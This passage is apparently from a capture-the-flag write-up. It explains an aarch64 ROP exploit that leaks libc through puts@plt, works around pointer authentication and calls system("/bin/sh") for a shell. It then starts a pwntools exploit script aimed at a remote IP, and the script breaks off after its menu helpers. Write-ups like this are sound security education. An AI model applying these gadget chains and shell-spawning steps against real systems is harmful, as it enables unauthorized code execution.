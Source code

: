 So using these two registers, we can essentially set arguments and call any function, as long as we have a pointer to that function. So the plan was to initially call `puts@plt`, with a `GOT` address as its first argument. Now we needed a pointer to `puts@plt`. For this, we can use the add function, as `puts@plt` is less than 4 bytes, atoi will return the same value and it will get stored on bss. So then `0x412050` contained a pointer to `puts@plt`, and we were able to leak libc addresses.

For the final part of the exploit, we had to be able to return to main, and repeat the same process to call `system("/bin/sh")`, as we had libc leaks. I looked up the instructions following `blr x3`, and I saw the following:
```cpp
blr x3 ; cmp x20, x19 ; b.ne #0x400ff4 ; ldp x19, x20, [sp, #0x10] ; ldp x21, x22, [sp, #0x20] ; ldp x23, x24, [sp, #0x30] ; ldp x29, x30, [sp], #0x40 ; ret
```
This essentially meant that if `x20` and `x19` were equal, it would skip the jump, and then we had control over `x30`, which would subsequently give us control over PC and allow us to return to main. After `puts` was called, the value of `x19` was 1, so I set `x20` to 1 with the gadgets used earlier, and we got PC control!

THe rest of the exploit was straightforward. As we couldnt get a pointer to system(or any other libc gadget), as they were greater than 4 bytes, we PAC-encoded then returned back to the same gadgets used earlier, and instead of returning to main, we used the following gadget to pass a pointer to `/bin/sh` into `x0`, and then call `system`:
```cpp
0x63c0c : ldr x0, [sp, #0x18] ; ldp x29, x30, [sp], #0x20 ; ret
```
Following this, we got a shell!

## Exploit script

```python
#!/usr/bin/python

from hashlib import *
from pwn import *
from pwnlib.util.iters import mbruteforce
import sys

remote_ip, port = '52.255.184.147', 8080

context.terminal = ['tmux', 'splitw', '-h']
context.arch = "aarch64"
context.log_level = "debug"

global io

re = lambda a: io.recv(a)
reu = lambda a: io.recvuntil(a)
rl = lambda: io.recvline(False)
s = lambda a: io.send(a)
sl = lambda a: io.sendline(a)
sla = lambda a,b: io.sendlineafter(a,b)
sa = lambda a,b: io.sendafter(a,b)

libc = ELF("./lib/libc.so.6")

def add(iden):
    sla(">> ","1")
    sla("identity: ",str(iden))

def lock(idx):
    sla(">> ","2")
    sla("idx: ",str(idx))

def show():
    sla(">> ","3")
```
